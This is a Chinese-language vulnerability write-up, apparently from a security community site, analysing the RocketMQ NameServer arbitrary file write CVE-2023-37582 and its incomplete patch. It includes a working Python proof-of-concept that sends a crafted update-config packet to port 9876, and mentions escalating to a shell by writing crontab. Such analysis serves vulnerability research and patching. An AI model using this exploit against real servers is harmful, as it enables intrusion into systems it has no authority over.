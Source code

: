 

# Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析 - 先知社区

Apache RocketMQ NameServer 远程代码执行漏洞（CVE-2023-37582）分析



# 漏洞描述

最近，阿里云又发布了 RocketMQ 的漏洞通告，因为才分析过这个漏洞，所以再来看一下

[![](assets/1701612301-118d1eda9871c1f659142dc046c547f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232628-78f31f82-20c8-1.png)

一看是由于上次没有修复完善的原因，拉一版修复的源码再来看一下。

# 漏洞分析

[![](assets/1701612301-a0d76d496ca037d1963cd21f7d7f5ac5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232645-82d53580-20c8-1.png)

修补的地方在 namesrv，还是 updateconfig 这个地方，这里可以用 RocketMQ 自己的协议，用不同的 code 调用过来

[![](assets/1701612301-c20b54c005803a1790292a34cd7b19e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232653-87b41c6a-20c8-1.png)

[![](assets/1701612301-d29b723d966081bbfad7d7449219a34c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232659-8b4f2cac-20c8-1.png)

这里是 318，namesrv 的端口是 9876

[![](assets/1701612301-712909b3f2584ea20990dae0665737c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232707-8fea9eea-20c8-1.png)

之前的漏洞，可以通过 update 造成任意文件写入，而补丁则把控制文件路径的 properties 加入来黑名单，跟进 update

```bash
public void update(Properties properties) {
    try {
        readWriteLock.writeLock().lockInterruptibly();

        try {
            // the property must be exist when update
            mergeIfExist(properties, this.allConfigs);

            for (Object configObject : configObjectList) {
                // not allConfigs to update...
                MixAll.properties2Object(properties, configObject);
            }

            this.dataVersion.nextVersion();

        } finally {
            readWriteLock.writeLock().unlock();
        }
    } catch (InterruptedException e) {
        log.error("update lock error, {}", properties);
        return;
    }

    persist();
}
```

因为之前的了解，就直接跟到 persist 了

[![](assets/1701612301-e90ef4f53ef49985be841b1ccffc8c32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232717-96078a90-20c8-1.png)

在 string2File 这里造成的任意文件写入，第二个参数是 filename，所以跟进到 getStorePath 观察一番

[![](assets/1701612301-52740a04bbf03bd66bbd4b2a074f1799.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232735-a0871d1e-20c8-1.png)

最后的返回的 realStorePath 在这里赋值，storePathFiled 是一个 Field 实例化的类，这个类是用于反射的，看到它时 configStorePath 字段，所以这里全是就是获取的其实是 storePathObject 中 configStorePath 的值

[![](assets/1701612301-5f6dae8e7ea1fac393bd19640850939e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232746-a6db8dee-20c8-1.png)

这些都是我们在 RocketMQ 的协议中的 body 可以控制的，并且没有被过滤，过滤的 properties 为 configStorePathName

也印证了为什么这次的补丁时把 configStorePathName 改为 configStorePath

# 漏洞复现

```bash
import socket
import binascii

client = socket.socket()
# you ip
client.connect(('127.0.0.1',9876))
# data
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='brokerConfigPath=/tmp/aaa/CaSO4.txt\nconfigStorePath=/tmp/aaa/DawnT0wn.txt\naaaConfigPath=123\\nMy name is DawnT0wn'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```

[![](assets/1701612301-23b72713e59e51a6fef37c4c68b5655f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712232802-b09724ce-20c8-1.png)

至于漏洞通告中写到的远程代码执行，在 5.1.1 版本之前可以结合 FilterServerManager 这个类的心跳机制，在 unix 和 linux 下可以命令执行，但是在 5.1.0 到 5.1.1 的版本更新中删除了这个类，只能用写 crontab 的方式来获取 shell 了

参考链接：

[https://github.com/apache/rocketmq/pull/6843/files](https://github.com/apache/rocketmq/pull/6843/files)

[https://avd.aliyun.com/detail?id=AVD-2023-37582](https://avd.aliyun.com/detail?id=AVD-2023-37582)
